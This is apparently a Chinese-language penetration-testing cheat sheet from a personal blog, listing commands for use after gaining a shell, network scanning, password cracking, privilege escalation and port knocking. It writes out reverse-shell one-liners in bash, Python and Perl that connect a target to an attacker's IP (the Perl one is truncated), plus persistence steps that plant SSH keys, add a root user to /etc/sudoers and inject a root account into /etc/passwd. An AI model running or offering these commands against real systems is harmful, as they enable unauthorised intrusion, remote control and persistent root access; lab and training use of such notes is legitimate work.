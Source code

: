 ```yaml
---
title: "渗透笔记"
date: 2021-01-01T21:28:36+08:00
draft: false
tags: ["note"]
categories: ["security"]
---
```


## 获取shell后
- 开启清屏： `export TERM=screen # 赋值xterm也可以`
- 查看sudo权限： `sudo -l`
- 尝试生成公钥文件到用户目录下的 `.ssh` 下： `echo "xxxx" > /home/p1n93r/.ssh/authorized_keys` ，然后就可以免密ssh登录了： `ssh p1n93r@192.168.189.5 -i id_rsa`
- 创建用户且赋予root权限(已拿到root)： `adduser p1n93r` ，然后 `passwd p1n93r` ，然后赋予sudo权限 `echo "p1n93r    ALL=(ALL:ALL) ALL" >> /etc/sudoers`
- 使用python获取一个完全交互式的tty： `python -c 'import pty;pty.spawn("/bin/bash")'`
- 查看任务计划： `cat /etc/crontab`
- 查看内核版本： `uname -r`


## 常用工具
- 发现主机： `nmap -sn 192.168.189.0/24`
- 扫描主机： `nmap -A -sS -p- 192.168.189.5`
- 生成字典： `crunch 10 10 abcd -o pwd.txt`
- 爆破密码： `john --wordlist=/usr/share/wordlist/rockyou.txt encry`
- Java降级编译： `javac -source 1.7 -target 1.7 Exploit.java`

## 反弹shell
攻击机开启监听： `nc -lvnp 7777`

靶机执行命令：

	#bash反弹
	bash -i >& /dev/tcp/192.168.10.27/4444 0>&1
	#python反弹
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.10.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
	#Perl反弹
	perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")

## 提权
### SUID提权
以下命令将尝试查找具有root权限的SUID的文件，不同系统适用于不同的命令，一个一个试：

	find / -perm -u=s -type f 2>/dev/null
	find / -user root -perm -4000-print2>/dev/null
	find / -user root -perm -4000-exec ls -ldb {} \;

### 工具扫描
- LinEnum：`https://github.com/rebootuser/LinEnum`
- linuxprivchecker：`https://github.com/sleventyeleven/linuxprivchecker`

## 一些场景
### 端口敲门
发现存在这个文件： `/etc/knockd.conf` 文件，就是配置了端口敲门策略，需要根据其配置来进行端口敲击才能连接响应的端口，例如如下knockd.conf配置：

	[options]
		UseSyslog
	
	[openSSH]
		sequence    = 7469,8475,9842
		seq_timeout = 25
		command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
		tcpflags    = syn
	
	[closeSSH]
		sequence    = 9842,8475,7469
		seq_timeout = 25
		command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
		tcpflags    = syn

代表需要依次敲击7469、8475和9842端口，才能开放SSH服务，所以在攻击机上安装knockd工具进行敲击即可：

	sudo apt-get install knockd
	knockd 192.168.189.10 7469 8475 9842

### 利用 `/etc/passwd` 提权
首先生成加密后的密码：

	perl -le 'print crypt("your_password","salt")'

然后将加密后的密码和其他配置添加到 `/etc/passwd` （前提是有编辑权限咯）下：

	echo "p1n93r:xxxx:0:0:root:/root:/bin/bash"
	su p1n93r